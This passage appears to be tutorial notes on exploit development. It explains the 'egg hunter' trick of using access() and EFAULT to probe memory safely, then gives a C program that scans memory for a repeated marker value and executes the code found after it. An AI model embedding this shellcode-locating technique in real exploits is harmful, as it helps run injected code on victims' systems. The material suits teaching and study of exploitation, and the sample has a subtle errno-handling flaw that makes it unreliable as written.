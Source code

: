 We hand it a path name as a reference to a string, an address, and the
operating system will dereference that address. If the address is not
accesible, the system call will fail with `EFAULT`

``` {.example}
EFAULT pathname points outside your accessible address space.
```

BUT, it will not segfault! So we can use `access()` to hunt out
accessible address spaces. Here's some C code that does that, and once
it finds the egg, it executes it.

``` {.c}
//dummy_hunt.c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main(int argc, char *argv[]){

  unsigned int p = 0x0000000;
  unsigned int egg = 0x90509050;

  //egg hunt
  while(1){

    //peform an acess
    access( (char *) p+4, 0);
    //check if we EFAULT or not (readible memory or not)
    if ( errno != EFAULT){

      //treat p as a integer pointer
      unsigned int * q = (unsigned int *) p;

      //check for egg twice in a row
      if (q[0] == 0x90509050 &&
      q[1] == 0x90509050){
    //execute the shell code if found
    ((void(*)(void)) q)();
      }

      p++;
    }else{
      //if segfaulting move at page boundry
      p |= 0xfff; //1 out last 12 bits, 
      p += 1; //add 1 to cause an overflow to move in 4096 boundaries
    }

  }


}
```
